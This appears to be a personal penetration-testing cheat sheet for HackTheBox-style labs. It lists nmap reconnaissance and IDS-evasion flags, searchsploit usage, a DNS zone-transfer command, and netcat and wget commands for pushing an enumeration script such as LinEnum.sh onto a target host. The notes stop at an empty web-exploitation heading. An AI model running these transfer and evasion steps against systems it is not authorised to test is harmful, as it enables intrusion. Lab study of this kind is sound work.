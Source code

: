 # Hacking

## Reconnaissance

### Nmap Scan
- `nmap -sC -sV nmap 10.10.10.14 > nmap_scan`
- SYN/Stealth scan: `nmap -sS <target>`
- Most common UDP ports scan (takes longer than TCP): `nmap -sU --top-ports 20 <target>`
- Ping sweet (network host discovery): `nmap -sn 192.168.0.0/24` or `nmap -sn 192.168.0.1-254`
- Nmap Scripting Engine (NSE): https://nmap.org/book/nse-usage.html
- Scripts: https://nmap.org/nsedoc/
- Search Scripts: `grep "ftp" /usr/share/nmap/scripts/script.db`
- Also: `ls -l /usr/share/nmap/scripts/*ftp*`
- Skip using ping for host disdovery `-Pn`
- decide maximum transfer unit: `--mtu <number>` (must be multiples of 8)
- scan delay: `--scan-delay <time>ms`
- generate invalid chacksum for packets: `--badsum`

#### Nmap Firewall/IDS evasion
- https://nmap.org/book/man-bypass-firewalls-ids.html
- `-f` used to fragment packets

### Searchsploit
- `searchsploit [name]`
- show exploit: `searchsploit -x 41006.txt`

### Search DNS information
- `nslookup domain.com`
- `dig axfr @10.10.10.13 cronos.htb`

### Change hostname
- `vi /etc/hosts`
- `10.10.10.13              cronos.htb`

## Delivery

### Upload file to target
- own host: `python -m SimpleHTTPServer`
- target host: `wget -r http://hostIP:8000/`
- OR; `python -m http.server 8080`

#### Using Netcat
- listen for incoming file on target: `nc -l -p 1337 > LinEnum.sh`
- send the file from own host: `nc -w 3 [ip-add-target] 1337 < LinEnum.sh`

## Web Exploitation
